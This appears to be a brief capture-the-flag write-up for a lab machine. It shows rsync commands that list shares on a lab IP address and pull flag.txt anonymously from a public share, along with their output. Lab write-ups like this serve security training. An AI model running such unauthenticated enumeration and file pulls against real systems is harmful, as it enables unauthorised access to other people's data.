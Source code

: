 > [!Note] What this box taught?
> 1. Enumeration
> 2. Exploit null session on rsync

## Exploitation
Listing shares
```
rsync --list-only rsync://10.129.228.37
public         	Anonymous Share

```

Downloading file
```
rsync -av rsync://10.129.228.37/public/flag.txt ./flag.txt
receiving incremental file list
flag.txt
```
